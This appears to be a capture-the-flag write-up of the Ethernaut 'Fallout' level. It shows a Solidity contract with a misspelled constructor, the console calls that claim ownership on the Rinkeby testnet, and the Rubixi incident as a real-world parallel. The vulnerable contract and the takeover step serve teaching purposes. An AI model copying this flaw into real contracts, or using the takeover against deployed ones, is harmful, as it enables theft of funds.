 2.FallOut
Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

await contract.owner()
'0x0000000000000000000000000000000000000000'
player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

contract.abi
(6) [{…}, {…}, {…}, {…}, {…}, {…}]
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。

0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
length: 6
[[Prototype]]: Array(0)

//contract作成。everybody is gonna be owner! 

contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c

await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
player
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'


That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.